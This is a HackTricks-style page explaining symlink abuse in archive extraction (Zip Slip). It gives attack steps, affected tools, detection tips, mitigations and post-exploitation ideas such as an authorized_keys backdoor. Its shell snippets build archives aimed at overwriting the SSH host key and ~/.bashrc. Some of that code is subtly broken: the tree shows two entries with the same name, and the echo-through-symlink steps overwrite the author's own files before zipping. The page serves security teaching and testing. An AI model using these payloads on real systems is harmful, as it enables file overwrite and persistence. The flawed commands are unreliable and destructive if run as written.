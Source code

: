 # Archive Extraction Symlink Exploitation (Zip Slip & Friends)

{{#include ../banners/hacktricks-training.md}}

Abusing **symbolic links (symlinks)** embedded inside archives (ZIP, TAR, 7Z, RAR …) is a classic way to turn an apparently innocuous file-extraction operation into **arbitrary file write** and, frequently, **remote code execution (RCE)**.  
The trick ‑ popularised in 2018 with the *Zip-Slip* wave of vulnerabilities ‑ is still frequently rediscovered when archiving tools fail to ensure that the **final extraction path always stays inside the chosen destination directory**.

When the extractor naively *follows* symlink entries during decompression, an attacker can smuggle files *outside* the destination folder and overwrite anything the current user (or service account) is allowed to write.

## TL;DR

1. Create a directory tree that contains **symlink entries that point to sensitive targets** (e.g. `/etc/ssh/ssh_host_rsa_key`, `~/.bashrc`, `%windir%\System32\drivers\etc\hosts`).  
2. Add the **malicious payload file** next to each symlink.
3. Compress the tree with any format that preserves symlinks (ZIP, TAR, 7Z, RAR …).
4. Convince the victim to extract the archive with a **vulnerable utility/library**.  
   • Linux/Mac: works under normal privileges because creating/following symlinks is unrestricted.  
   • Windows: extraction must run with **SeCreateSymbolicLinkPrivilege** (Administrator/UAC elevated) *or* **Developer Mode** enabled.
5. Upon extraction the tool traverses the symlink and **writes the attacker-controlled payload to the real target path** → overwrite → code execution / persistence / privilege escalation.

## Anatomy of a Malicious Archive

```bash
$ tree evil/
├── link -> /etc/ssh/ssh_host_rsa_key   # symlink entry (stores the final path!)
└── link                                # the file that will overwrite the key
```

1. `ln -s /etc/ssh/ssh_host_rsa_key evil/link`
2. `echo "malicious-key" > evil/link`   # replaces content via the symlink
3. `zip -y -r evil.zip evil`            # `-y/--symlinks` keeps links in ZIP

`evil.zip` now contains an entry whose **stored filename is `evil/link`** and whose **target is `/etc/ssh/ssh_host_rsa_key`**.  When a vulnerable extractor recreates the symlink **and then writes file data through it**, the original host key is overwritten.

## Real-World Vulnerabilities

The pattern affects both CLI tools and the countless libraries that implement archive parsing:

• `7-Zip` < 25.01 (CVE-2025-55188) – writes outside extraction directory when processing symlinks.  
• `unzip` 6.0 – originally vulnerable; fixed in many distros.  
• Java `ZipFile` libraries used by GoCD, maven-installer, … (Zip-Slip 2018).  
• `libarchive`, `pyunpack`, `bsdtar`, `busybox tar` (various CVEs).

## Detecting Vulnerable Extractors

A quick test archive can be generated with the snippet above.  If, after extraction, the *real* file (`/etc/ssh/ssh_host_rsa_key`) changes, the utility is vulnerable.  
When performing assessments:

1. Upload a crafted archive through any feature that unpacks server-side (CI/CD import, attachment preview, theme installers…).
2. Check if protected files changed or if new files appeared outside the upload directory.

## Mitigations & Hardening

* Developers → **Validate extraction paths**:  
  `absolute(dest_path).startswith(absolute(extract_dir))` **before** creating/writing a file.  Never follow symlinks blindly.
* Users / sysadmins →  
  • **Patch** affected software (e.g. 7-Zip ≥ 25.01).  
  • **Extract with `--no-same-owner --no-same-permissions --no-symlinks`** flags when available (e.g. `bsdtar`).  
  • Drop privileges (`sudo -u nobody`) or **chroot/fakeroot** before bulk-extracting untrusted archives.
* Windows → disable Developer Mode; avoid running extractors as Administrator.

## Post-Exploitation Ideas

• Overwrite `~/.ssh/authorized_keys` → persistent SSH backdoor.  
• Replace `/etc/profile.d/*.sh` or `~/.bashrc` → command execution on next login.  
• Overwrite systemd service files → privilege escalation after daemon reload.  
• On Windows, overwrite a `%PROGRAMDATA%\Microsoft\Windows\Start Menu\Programs\Startup\evil.bat` or DLL search-order hijack target.

## One-Liner PoC (Linux)

```bash
# Overwrite current user .bashrc on extraction
mkdir -p pwn && ln -s ~/.bashrc pwn/link && echo 'evil="$(id)"' > pwn/link
zip -y -r pwn.zip pwn
```

## References

- [New 7-Zip flaw (CVE-2025-55188)](https://www.redhotcyber.com/en/post/new-7-zip-flaw-symbolic-links-turn-extraction-into-a-hack-2/)
- [Zip-Slip write-up 2018](https://snyk.io/research/zip-slip-vulnerability)
- [7-Zip 25.01 release notes](https://github.com/ip7z/7zip/releases/tag/25.01)

{{#include ../banners/hacktricks-training.md}}